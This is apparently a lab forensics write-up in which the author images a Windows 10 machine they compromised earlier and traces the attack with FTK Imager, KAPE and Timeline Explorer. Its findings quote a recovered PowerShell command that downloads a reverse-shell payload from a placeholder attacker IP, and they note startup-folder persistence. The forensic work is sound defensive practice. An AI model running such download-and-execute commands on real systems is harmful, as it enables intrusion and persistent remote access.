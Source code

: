 # WINDOWS FORENSICS

## OBJECTIVE:

The goal of this phase was to perform a forensic investigation on a compromised Windows 10 system. This included collecting targeted artifacts, analyzing system activity to trace attacker behavior, and constructing a clear timeline of the intrusion.

## INTRODUCTION:

This project is a follow-up to my earlier Windows 10 red team simulation, where I compromised a lab machine using reverse shells, set up persistence, and carried out post-exploitation activities.

In this second phase, I approached the same machine from a forensic analyst’s perspective, capturing disk images, extracting key artifacts, and analyzing them with dedicated tools to identify traces of the attacker’s activity, including payload files, suspicious commands, and network indicators pointing to the attacker's system.

## TOOLS USED:
- FTK Imager
- Kroll Artifact Parser and Extractor (KAPE)
- Timeline Explorer

---

## - ARTIFACT ACQUISITION
I started by using FTK Imager to collect both targeted and broad artifacts:
| Artifact                | Path                                                            |
| ----------------------- | --------------------------------------------------------------- |
| Master File Table (MFT) | `C:\$MFT`                                                       |
| Event logs              | `C:\Windows\System32\winevt\Logs`                               |
| NTUSER registry hive    | `C:\Users\<username>\NTUSER.DAT`                                |
| SYSTEM registry hive    | `C:\Windows\System32\config\SYSTEM`                             |
| SOFTWARE registry hive  | `C:\Windows\System32\config\SOFTWARE`                           |
| User’s directory        | `C:\Users\<username>` (where payloads & artifacts were dropped) |

I used FTK Imager to create a disk image `.001`, consolidating these artifacts, ensuring proper evidence integrity.

---

## - EVIDENCE TRANSFER
I securely copied the `.001` disk image from the compromised Windows system to my dedicated forensics workstation.

---

## - EXAMINING THE DISK IMAGE
On my forensics machine:

- I loaded the `.001` image back into FTK Imager.
- Used FTK Imager to mount and extract the contents of the disk image, effectively recreating the file system for analysis.

---

## - PARSING THE ARTIFACTS
Next, I launched KAPE (Kroll Artifact Parser and Extractor), pointed it to the extracted image contents, and configured it:
- Selected key targets (like registry hives, event logs, MFT).
- Selected modules to parse this data into structured outputs.
- Set a destination folder for processed results.

Then, I executed the task.
KAPE processed the evidence and produced multiple Excel sheets (CSV/XLSX) containing parsed data.

---

## MANUAL ANALYSIS
- I loaded these sheets into Timeline Explorer to get a powerful pivot table-style view.
- This helped me filter and sort by timestamps, path names, process names, and more.

---

## FINDINGS — TRACING THE ATTACKER
Through this analysis, I found clear artifacts of the attack:

- Persistence:
  - Located the reverse shell payload copied to the Windows startup folder.
    
    Example:
    ```
    C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\payload.pyzw
    ```
  - Verified timestamps (Created, Modified, Accessed) showing exactly when persistence was established.

- Temp staging folder:
  - Found the `Temp` directory created by the attacker under `C:\Users\Public\Documents\Temp`.

- Command line evidence in Event Logs:
  - Found PowerShell and cmd commands in the Security/PowerShell logs.
  - Notably recovered the command that downloaded the payload:
    
    ```batch
    powershell -Command "Invoke-WebRequest -Uri http://<attacker_IP>/powershell_reverse.pyzw -OutFile C:\Users\Public\Documents\powershell_reverse.pyzw"
    ```
  - This revealed the attacker’s IP address: `<attacker_IP>`.

- Other footprints:
  - Evidence of the WinPEAS enumeration binary being executed.
  - Logs showing browser launches and other activity matching the attacker’s session.

---

## BUILDING A TIMELINE
Based on the parsed timestamps from the MFT, registry, and event logs, I reconstructed:
- When the initial reverse shell was executed.
- When the persistence payload was copied to the startup folder.
- When WinPEAS was run to look for privilege escalation.

This provided a clear chronological picture of the attack.

---

## SUMMARY
- Through this phase, I was able to effectively:
- Collect and preserve targeted evidence using FTK Imager.
- Parse and analyze large volumes of data with KAPE and Timeline Explorer.
- Correlate multiple sources to identify malicious activity, persistence mechanisms, the attacker's IP, and a probable timeline of compromise.

---

## PROJECT SNIPPETS:

---

> ⚠️ Disclaimer:
> 
> This project was performed strictly for educational and ethical purposes in a controlled lab environment.
> Always ensure you have explicit authorization before performing any form of forensic analysis or incident response on systems.
